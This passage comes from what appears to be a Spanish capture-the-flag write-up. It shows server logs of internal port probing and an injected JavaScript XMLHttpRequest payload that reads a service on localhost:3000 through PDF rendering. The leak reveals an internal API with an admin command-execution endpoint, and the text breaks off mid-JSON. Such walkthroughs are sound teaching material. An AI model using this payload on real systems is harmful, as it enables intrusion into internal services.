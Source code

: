 Observamos que además del puerto `80`, el puerto `3000` también está abierto en la red interna.

```bash
$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.1.117 - - [22/Mar/2025 00:24:05] "GET /script.js HTTP/1.1" 304 -
192.168.1.117 - - [22/Mar/2025 00:24:05] code 404, message File not found
192.168.1.117 - - [22/Mar/2025 00:24:05] "GET /ping?port=80 HTTP/1.1" 404 - <---
192.168.1.117 - - [22/Mar/2025 00:24:06] code 404, message File not found
192.168.1.117 - - [22/Mar/2025 00:24:06] "GET /ping?port=3000 HTTP/1.1" 404 - <---
```

Volvemos a modificar `script.js` para visualizar la respuesta del puerto 3000.

```javascript
x=new XMLHttpRequest;
x.onload=function(){
  document.write("<div>"+this.responseText+"</div>")
};
x.open("GET","http://localhost:3000");
x.send();
```

Descargamos el PDF y vemos un texto en formato JSON:

![alt text](../../../assets/images/token-of-hate/image-12.png)

```json
{
   "name":"API de Comandos",
   "version":"1.2.0",
   "description":"API para autenticación y ejecución de comandos utilizando
un token.",
   "endpoints":{
      "/":{
         "method":"GET",
         "description":"Muestra la información de la API y la descripción de los
endpoints disponibles."
      },
      "/login":{
         "method":"POST",
         "description":"Permite iniciar sesión. Se espera un body en formato
JSON con 'username' y 'password'. Si el login es correcto, se retorna un token JWT. Ejemplo: { \"username\": \"test\",
\"password\": \"123456\" }"
      },
      "/command":{
         "method":"POST",
         "description":"Ejecuta un comando del sistema para
usuarios autenticados con rol admin. Se espera un body en formato JSON con 'command' y 'token' o enviando el token
```
